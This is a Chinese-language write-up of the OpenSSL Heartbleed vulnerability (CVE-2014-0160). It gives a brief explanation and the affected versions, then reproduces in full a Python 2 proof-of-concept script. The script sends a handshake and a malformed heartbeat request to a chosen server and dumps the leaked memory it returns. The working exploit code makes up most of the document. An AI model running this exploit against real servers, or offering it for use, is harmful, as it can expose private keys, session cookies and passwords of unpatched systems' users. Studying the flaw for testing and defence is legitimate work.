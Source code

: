 （CVE-2014-0160）OpenSSL 心脏出血漏洞
=====================================

一、漏洞简介
------------

Heartbleed漏洞，这项严重缺陷(CVE-2014-0160)的产生是由于未能在memcpy()调用受害用户输入内容作为长度参数之前正确进行边界检查。攻击者可以追踪OpenSSL所分配的64KB缓存、将超出必要范围的字节信息复制到缓存当中再返回缓存内容，这样一来受害者的内存内容就会以每次64KB的速度进行泄露。

二、漏洞影响
------------

OpenSSL 1.0.2-betaOpenSSL 1.0.1 -- OpenSSL 1.0.1f

三、复现过程
------------

### poc

![15896120731.jpg](./resource/(CVE-2014-0160)OpenSSL心脏出血漏洞/media/rId25.jpg)

    #!/usr/bin/python

    # Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
    # The author disclaims copyright to this source code.

    import sys
    import struct
    import socket
    import time
    import select
    import re
    from optparse import OptionParser

    options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
    options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

    def h2bin(x):
        return x.replace(' ', '').replace('\n', '').decode('hex')

    hello = h2bin('''
    16 03 02 00  dc 01 00 00 d8 03 02 53
    43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
    bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
    00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
    00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
    c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
    c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
    c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
    c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
    00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
    03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
    00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
    00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
    00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
    00 0f 00 01 01                                  
    ''')

    hb = h2bin(''' 
    18 03 02 00 03
    01 40 00
    ''')

    def hexdump(s):
        for b in xrange(0, len(s), 16):
            lin = [c for c in s[b : b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in lin)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print

    def recvall(s, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time() 
            if rtime < 0:
                return None
            r, w, e = select.select([s], [], [], 5)
            if s in r:
                data = s.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata
            

    def recvmsg(s):
        hdr = recvall(s, 5)
        if hdr is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        typ, ver, ln = struct.unpack('>BHH', hdr)
        pay = recvall(s, ln, 10)
        if pay is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return typ, ver, pay

    def hit_hb(s):
        s.send(hb)
        while True:
            typ, ver, pay = recvmsg(s)
            if typ is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False

            if typ == 24:
                print 'Received heartbeat response:'
                hexdump(pay)
                if len(pay) > 3:
                    print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True

            if typ == 21:
                print 'Received alert:'
                hexdump(pay)
                print 'Server returned error, likely not vulnerable'
                return False

    def main():
        opts, args = options.parse_args()
        if len(args) < 1:
            options.print_help()
            return

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        print 'Connecting...'
        sys.stdout.flush()
        s.connect((args[0], opts.port))
        print 'Sending Client Hello...'
        sys.stdout.flush()
        s.send(hello)
        print 'Waiting for Server Hello...'
        sys.stdout.flush()
        while True:
            typ, ver, pay = recvmsg(s)
            if typ == None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if typ == 22 and ord(pay[0]) == 0x0E:
                break

        print 'Sending heartbeat request...'
        sys.stdout.flush()
        s.send(hb)
        hit_hb(s)

    if __name__ == '__main__':
        main()
